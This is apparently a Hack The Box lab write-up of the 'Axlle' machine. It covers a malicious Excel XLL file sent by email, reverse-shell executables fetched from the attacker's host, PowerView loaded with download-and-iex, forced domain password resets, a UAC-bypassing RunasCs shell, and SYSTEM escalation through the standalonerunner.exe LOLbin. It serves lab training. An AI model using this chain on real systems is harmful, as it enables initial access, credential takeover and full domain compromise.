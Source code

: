 ```yaml
---
title: axlle
published: 2024-10-09
description: 'Axlle HTB hard machine writeup'
tags: [HTB, AD, Machines]
category: 'Machines'
draft: false 
lang: 'en'
---
```



As the machine's name hinted, this is about xll files, which are like DLL files but for excel and we gonna use this extension to execute code on the victim machine once he opens it

# 1) write .xll file and upload it using swax

us the c code from https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec to generate an malicious .xll file

```c
#include <Windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

compile it with the following command:
```bash
x86_64-w64-mingw32-gcc snippet.c 2013_Office_System_Developer_Resources/Excel2013XLLSDK/LIB/x64/XLCALL32.LIB -o importantdoc.xll -s -Os -DUNICODE -shared -I 2013_Office_System_Developer_Resources/Excel2013XLLSDK/INCLUDE/
```

here of course you will need to install `x86_64-w64-mingw32-gcc ` and download the Excel SDK


then lets send this malicious file to the victim in an email using swaks
```bash
swaks \          
        --from accounts@axlle.htb \
        --to accounts@axlle.htb \
        --server axlle.htb \
        --port 25 \
        --header 'Subject: Test email' \
        --body "This email contains an attachment." \
        --attach '@importantdoc.xll'
```


# 2) write the revershell.exe and .link on the smb folder to get shell

```powershell
wget http://10.10.14.135:3030/reverse.exe -o reverse.exe
```

```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set lport 4444; exploit"
```


```powershell
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\inetpub\testing\scam.url")
$link.targetpath = "C:\inetpub\testing\reverse.exe"
$link.save()
```

# 3) forceChangePassword

now we have reverse shell as `dallon.matrix` and have right to change `baz.humphries` and `jacob.greeny` passwords

![](src/assets/axlle/Axlle_image_1.png)

get the powerview first

```powershell
(New-Object System.Net.WebClient).DownloadString("http://10.10.14.135:3030/powerview.ps1") | iex
```


```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

```powershell
Set-DomainUserPassword -Identity baz.humphries -AccountPassword $UserPassword
Set-DomainUserPassword -Identity jacob.greeny -AccountPassword $UserPassword
```

now both those accounts have  `Password123!` as password


#### to get a reverse shell as one of those users

```powershell
./RunasCs.exe "baz.humphries" "Password123!" powershell -r 10.10.14.135:2222 --bypass-uac --logon-type '8'
```

# after we have the baz.humphries we need to exploit the standalone vulnerability

in the `c:\App developement\kbfiltr\README.md` it says that the `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` is executed regularly by the SYSTEM user

and looking at the `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\` we see that we (`APP DEV`) group have write access on the `x64`directory 
```powershell
PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal> icacls x64
x64 AXLLE\App Devs:(OI)(CI)(RX,W)
    Everyone:(I)(OI)(CI)(R)
	....
	APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

googling about the `standalonerunner.exe` we find that this is a LOLbin and we can exploit it if we have write access on the running directory of that exe

https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md#putting-everything-together

on our machine:
```bash
nc -nlvp 6666
```

on the target host:

download our needed files in the `c:\inetpub\testing` as the user `dallon.matrix` 
```bash
wget http://10.10.14.135:3030/command.txt -o command.txt
wget http://10.10.14.135:3030/reboot.rsf -o reboot.rsf
```


```powershell
cp c:\inetpub\testing\reboot.rsf reboot.rsf;

mkdir myTestDir;cd myTestDir;mkdir working;cd ../ 
new-item rsf.rsf -type file; mv rsf.rsf myTestDir\working

cp c:\inetpub\testing\command.txt command.txt
```

and then get the flag

# GG
